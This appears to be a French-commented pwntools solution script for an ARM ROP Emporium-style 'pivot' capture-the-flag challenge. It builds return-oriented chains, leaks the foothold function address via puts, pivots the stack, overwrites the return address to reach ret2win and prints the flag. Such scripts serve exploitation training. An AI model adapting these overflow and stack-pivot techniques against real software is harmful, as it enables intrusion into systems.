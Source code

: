 ```python
PL+=p32(g_pop_r3)         # r4 => lr
PL+=p32(5)                #
PL+=p32(6)                #
PL+=p32(puts)             # => r3
PL+=p32(8)                #
PL+=p32(9)                #
PL+=p32(10)               #
PL+=p32(g_mov_lrr4_bx_r3)

PL+=p32(leak)                # pour pop r3

# pop r0
PL+=p32(g_mov_r0r3)
PL+=p32(11)                 # pour fp
# Entree 26
PL+=p32(pwnme)
PL+=p32(plt_foothold)

io.sendlineafter(b"> ",PL)

log.info("ETAPE 1 / pivot")
# ETAPE 1 - Message 2 : pivot
# Offset avant ecrasement de l'adresse de retour
offset=0x24

PL =b"A"*offset
PL+=p32(g_pop_r4)            # r4 <= leak
PL+=p32(leak)                #
PL+=p32(g_mov_r45_mov_sp_r5) # sp <=leak
io.sendlineafter(b"> ",PL)


# ETAPE INTERMEDIAIRE
# Le puts est effectué on lit l'adresse de foothold.
# Reception du leak puts
io.recvline()
io.recvline()
rep = io.recvline().rstrip()
info(rep.hex())
#leak=u32(rep[:4]+b"\x00\x00")
leak=u32(rep[:4])

# Calcule de l'adresse de ret2win
ret2win = leak+off_ret2win
exit_clean= leak+0x24
info(f"foothold leak = 0x{leak:x}")
info(f"ret2win       = 0x{ret2win:x}")

# ETAPE 2 - Message 1
# Recoit un LF precedent (?!)
# io.sendline(b"OK")

# ETAPE 2 - Message 2
# Envoi d'un bourrage de debordement
PL =b"A"*(offset)
PL+=p32(ret2win)
PL+=p32(exit_clean)
io.sendlineafter(b"> ",PL)

io.recvuntil(b"ROPE")
flag=io.recvline().decode()
log.success(f"flag : ROPE{flag}")
io.close()
```